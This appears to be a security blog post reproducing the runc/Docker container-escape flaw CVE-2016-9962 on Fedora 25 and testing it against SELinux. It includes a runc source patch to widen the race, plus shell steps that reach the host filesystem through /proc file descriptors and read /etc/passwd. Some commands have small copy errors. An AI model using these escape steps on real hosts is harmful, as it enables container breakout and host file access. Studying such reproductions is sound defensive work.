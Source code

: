 +++
date = "2017-01-17T03:27:40+09:00"
title = "Docker vulnerability (CVE-2016-9962) PoC with SELinux"
draft = false
+++

Here we described how to reproduce CVE-2016-9962(vulnerability for Docker) and
how can we protect it by using SELinux.

  

* * *

## Reference

#### <https://bugzilla.redhat.com/show_bug.cgi?id=1409531>

#### <https://bugzilla.suse.com/show_bug.cgi?id=1012568#c2>

## Prepare for PoC

Here is a description how to reproduce it. **I used Fedora25 for this PoC.**

This vulnerability is quite hard to reproduce because there's not so much race
window on runc. Also, we need to add "CAP_SYS_PTRACE" to container for
checking other container's status.

  1. Install docker, runc on your PC.
    
        [root@localhost ~]# rpm -qa|grep -i docker
    golang-github-fsouza-go-dockerclient-devel-0.2.1-17.git2350d7b.fc25.noarch
    golang-github-docker-go-unit-test-devel-1.5.1-0.3.gitd30aec9.fc25.x86_64
    golang-github-docker-go-devel-1.5.1-0.3.gitd30aec9.fc25.noarch
    docker-devel-1.12.6-3.git51ef5a8.fc25.noarch
    golang-github-docker-libcontainer-devel-2.1.1-0.8.gitc964368.fc25.noarch
    docker-1.12.6-4.gitf499e8b.fc25.x86_64
    golang-github-docker-libcontainer-2.1.1-0.8.gitc964368.fc25.x86_64
    golang-github-docker-go-connections-devel-0.1.2-0.2.git6e4c13d.fc25.noarch
    docker-common-1.12.6-4.gitf499e8b.fc25.x86_64
    golang-github-docker-go-connections-unit-test-devel-0.1.2-0.2.git6e4c13d.fc2
5.x86_64
    golang-github-docker-go-units-devel-0.2.0-3.fc25.noarch
    [root@localhost ~]# rpm -qa|grep -i runc
    runc-1.0.0-3.rc2.gitc91b5be.fc25.x86_64
    runc-devel-0.1.1-4.git57b9972.fc25.noarch
    

  2. Start docker.
    
        [root@localhost ~]# systemctl start docker
    

  3. Use "alpine" image for PoC.
    
        [root@localhost ~]# docker pull alpine
    

  4. create alpine image (named "alpine")
    
        [root@localhost ~]# docker create alpine --name alpine
    

  5. check new alpine container name by using "docker ps -a". In below situation
, "small_lumiere" is the name.
    
        [root@localhost ~]# docker ps -a
    [root@localhost ~]# docker ps -a
    CONTAINER ID        IMAGE               COMMAND             CREATED         
    STATUS              PORTS               NAMES
    965456106c88        alpine              "--name alpine"     6 hours ago     
    Created                                 small_lumiere
    

  6. create "rootfs" directory and copy all of alpine file under rootfs/
    
        [root@localhost ~]# mkdir rootfs
    [root@localhost ~]# docker export small_lumiere |tar xvfC - rootfs
    

  7. create config.json
    
        [root@localhost ~]# runc spec
    

  8. modify config.json for assign CAP_SYS_PTRACE capability.
    
                        "capabilities": [
                            "CAP_AUDIT_WRITE",
                            "CAP_KILL",
                            "CAP_SYS_PTRACE",
                            "CAP_NET_BIND_SERVICE"
                    ],
    

  9. For PoC, we will modify runc source. Get/install runc SRPM and modify sourc
e code.
    
        [root@localhost ~]# rpm -ivh /tmp/runc-1.0.0-3.rc2.gitc91b5be.fc25.src.r
pm
    [root@localhost ~]# cd SOURCES/
    [root@localhost ~]# ls
    runc-c91b5be.tar.gz
    [root@localhost ~]#
    [root@localhost ~]# mkdir ../work
    [root@localhost ~]# cd ../work/
    [root@localhost ~]# tar -xvzf ../SOURCES/runc-c91b5be.tar.gz
    [root@localhost ~]# cd runc-c91b5bea4830a57eac7882d7455d59518cdf70ec/
    [root@localhost runc-c91b5bea4830a57eac7882d7455d59518cdf70ec]# ls
    CONTRIBUTING.md       VERSION        main.go              script
    Dockerfile            checkpoint.go  main_solaris.go      signals.go
    Godeps                contrib        main_unix.go         spec.go
    LICENSE               create.go      main_unsupported.go  start.go
    MAINTAINERS           delete.go      man                  state.go
    MAINTAINERS_GUIDE.md  events.go      pause.go             tests
    Makefile              exec.go        ps.go                tty.go
    NOTICE                kill.go        restore.go           update.go
    PRINCIPLES.md         libcontainer   rlimit_linux.go      utils.go
    README.md             list.go        run.go               utils_linux.go
    [root@localhost runc-c91b5bea4830a57eac7882d7455d59518cdf70ec]# vi libcontai
ner/setns_init_linux.go 
    

  10. We add 2 lines ;
    
        [root@localhost libcontainer]# diff -Nru setns_init_linux.go setns_init_
linux.go.org 
    --- setns_init_linux.go	2017-01-16 15:26:01.067477093 +0900
    +++ setns_init_linux.go.org	2017-01-16 15:25:22.921553094 +0900
    @@ -5,6 +5,7 @@
     import (
     	"fmt"
     	"os"
    +	"time"
     
     	"github.com/opencontainers/runc/libcontainer/apparmor"
     	"github.com/opencontainers/runc/libcontainer/keys"
    @@ -49,5 +50,6 @@
     	if err := label.SetProcessLabel(l.config.ProcessLabel); err != nil {
     		return err
     	}
    +	time.Sleep(500 * time.Second)
     	return system.Execv(l.config.Args[0], l.config.Args[0:], os.Environ())
     }
    

  11. make tar.gz and re-create runc package by using rpmbuild.
    
        [root@localhost work]# tar -cvfrunc-c91b5be.tar runc-c91b5bea4830a57eac7
882d7455d59518cdf70ec
    [root@localhost work]# gzip runc-c91b5be.tar
    [root@localhost work]# cp runc-c91b5be.tar.gz ../SOURCES
    [root@localhost work]# cd ../SPECS/
    [root@localhost SPECS]# rpmbuild -ba runc.spec
    [root@localhost SPECS]# cd ~
    

  12. uninstall and re-install modified runc package;
    
        [root@localhost ~]# rpm -e runc
    [root@localhost ~]# rpm -ivh rpmbuild/RPMS/x86_64/runc-1.0.0-3.rc2.gitc91b5b
e.fc25.x86_64.rpm
    

* * *

## PoC

  * open 2 terminals(shell1, shell2).

  * Check SELinux is enabled;
    
        [root@localhost ~]# getenforce
    Enforcing
    

  * run container(sh) in shell1;
    
        [root@localhost ~]# runc run ctr
    / # 
    

  * run new container in shell2 with "runc exec" command. It is pausing 500sec;
    
        [root@localhost ~]# runc run ctr
    
    

  * run "ps ax" in shell1. You can see shell2 process;
    
        [root@localhost ~]# runc run ctr
    / # ps ax
    PID   USER     TIME   COMMAND
        1 root       0:00 sh
        6 root       0:00 /proc/self/exe init
       11 root       0:00 ps ax
    / # 
    

  * In above case, check /proc/6/fd by ls command. You see path as fd/4;
    
        / # ls -la /proc/6/fd/
    total 0
    dr-x------    2 root     root             0 Jan 16 06:43 .
    dr-xr-xr-x    9 root     root             0 Jan 16 06:43 ..
    lrwx------    1 root     root            64 Jan 16 06:43 0 -> /dev/pts/4
    lrwx------    1 root     root            64 Jan 16 06:43 1 -> /dev/pts/4
    lrwx------    1 root     root            64 Jan 16 06:43 2 -> /dev/pts/4
    lrwx------    1 root     root            64 Jan 16 06:43 3 -> socket:[40487]
    lr-x------    1 root     root            64 Jan 16 06:43 4 -> /run/runc/ctr
    lrwx------    1 root     root            64 Jan 16 06:43 5 -> /dev/pts/4
    lr-x------    1 root     root            64 Jan 16 06:43 6 -> pipe:[40496]
    l-wx------    1 root     root            64 Jan 16 06:43 7 -> /dev/null
    / # 
    

  * Check "/proc/6/fd/4/../../.." by ls command. You can see parent(host) / file
system;
    
        / # ls -l /proc/6/fd/4/../../..
    total 64
    lrwxrwxrwx    1 root     root             7 Feb  3  2016 bin -> usr/bin
    dr-xr-xr-x    6 root     root          4096 Jan 16 00:07 boot
    drwxr-xr-x   19 root     root          3840 Jan 16 05:57 dev
    drwxr-xr-x  130 root     root         12288 Jan 16 05:40 etc
    drwxr-xr-x    3 root     root          4096 Oct 12 22:55 home
    
    

  * You can also read /etc/passwd by using "cat /proc/6/fd/4/../../../etc";
    
        / # cat /proc/6/fd/4/../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    

* * *

## Conclusion

Now we could see that CVE-2016-9962 PoC is successfull even if SELinux is
enforcing. But we think this vulnerability is not critical because;

  * The race window is quite narrow(then we needed to modify runc source.)

  * We also need to add "CAP_SYS_PTRACE" on the container(it is removed in defau
lt.)

